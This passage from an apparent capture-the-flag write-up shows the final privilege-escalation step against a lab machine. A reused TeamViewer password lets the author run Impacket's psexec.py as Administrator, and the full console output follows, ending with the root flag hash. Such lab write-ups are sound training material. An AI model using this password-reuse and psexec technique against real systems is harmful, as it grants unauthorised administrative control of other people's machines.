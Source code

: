 ![TeamViewer](/media/2020.11/remote_03.png){: .image-process-article-image}

The solution was simpler as this is a simple password reuse. We fire a psexec
and connect as administrator using
the TeamViewer password and got a shell as administrator and can easily get
the root flag.

    :::text
    root@kalili:~/installed_tools/impacket/examples# psexec.py administrator@10.10.10.180
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    Password:
    [*] Requesting shares on 10.10.10.180.....
    [*] Found writable share ADMIN$
    [*] Uploading file AmYWRVZa.exe
    [*] Opening SVCManager on 10.10.10.180.....
    [*] Creating service PmSN on 10.10.10.180.....
    [*] Starting service PmSN.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>cd C:\Users\administrator\Desktop

    C:\Users\Administrator\Desktop>type root.txt
    66f9b552d94ea7c55919dc1bfbaff7e1
